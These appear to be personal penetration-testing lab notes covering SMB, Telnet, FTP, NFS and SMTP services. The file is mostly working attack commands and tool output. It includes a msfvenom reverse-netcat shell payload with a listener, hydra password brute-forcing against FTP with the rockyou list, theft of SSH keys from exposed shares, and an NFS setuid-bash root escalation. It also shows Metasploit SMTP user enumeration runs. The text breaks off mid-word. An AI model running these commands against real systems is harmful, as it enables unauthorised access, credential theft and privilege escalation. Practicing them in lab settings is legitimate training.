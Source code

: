## SMB Server Message Block

protocol response-request

TCP/IP

Samba (unix)

Enumeration

nmap -A -p-

enum4linux -A <ip>


CVE-2017-7494	remote code execution

smbclient //<ip>/<share> -U anonymous -p 445 		(-L flag = list host)

if you can find id_rsa key , download , change permissions

chmod 600 <filename>

then ssh with key,


https://pentestlab.blog/2017/09/25/suid-executables/


## Telnet aplication protocol (old SSH) 

plaintext

Enumeration

nmap -A -p-

try ping to confirm 

tcpdump ip proto \\icmp -i tun0     open listener

send ping

ping <lhost> -c 1


create nc shell with msvenom
msfvenom -p cmd/unix/reverse_netcat lhost=<ip> lport=4444 R

nc -lvnp 4444

we get root

## FTP  client-server   

standard port 21

enumarate nmap 

hydra
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp

took out -vV  -t 4 = parallel connections per target
hydra -t 4 -l <user> -P /usr/share/wordlists/rockyou.txt 10.10.10.6 ftp


further reading:

https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef

https://attack.mitre.org/techniques/T1210/

https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/

## NFS (network file system) for cross OS (Windows,Linux,MacOS)

protocol RPC  uses user id / group id


Enumeration

nmap -A -p-


NFS-Common -- software -- lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.

/usr/sbin/showmount -e [IP] 
/usr/sbin/showmount -e 10.10.238.222

mkdir /tmp/mount  (on your system)  // preferably temp,, having a hell of a time umount this shit, 

mount -t nfs IP:share /tmp/mount/ -nolock

mount -t nfs 10.10.238.222:home /tmp/mount/ -nolock

after we mount , we navigate to our /tmp/mount and look for id_rsa

cp to other directory, then chmod 600 id_rsa

and ssh into server 



Escalating

change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.


Download bash
https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

cp file to share, and modify file

sudo chown root bash

chmod +rwxs <file>

then, in ssh, execute bash, bash prompt should appear, and you are root, 

## SMTP  Simple Mail Transfer Protocol  handshake port 25
POP Post Office Protocol (more simplistic)  //  IMAP  Internet Message Access Protocol  (synchronize)

user =>  SMTP =>  Internet   =>  TOP/IMAP  => recipient


Enumerating

msf6 > nmap 10.10.162.40
[*] exec: nmap 10.10.162.40

Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-11 10:43 EST
Nmap scan report for 10.10.162.40
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp

Nmap done: 1 IP address (1 host up) scanned in 3.08 seconds




msf6 auxiliary(scanner/smtp/smtp_version) > run

[+] 10.10.162.40:25       - 10.10.162.40:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a
[*] 10.10.162.40:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed





msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
USER_FILE => /usr/share/seclists/Usernames/top-usernames-shortlist.txt
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.10.162.40:25       - 10.10.162.40:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[*] 10.10.162.40:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smtp/smtp_enum) > check
[-] Check failed: NoMethodError This module does not support check.
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.10.33.66
RHOSTS => 10.10.33.66
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.10.33.66:25        - 10.10.33.66:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[+] 10.10.33.66:25        - 10.10.33.66:25 Users found: administrator
[*] 10.10.33.66:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


2 ports 22 and 25

220 polosmtp.home ESMTP Postfix (Ubuntu)

user admi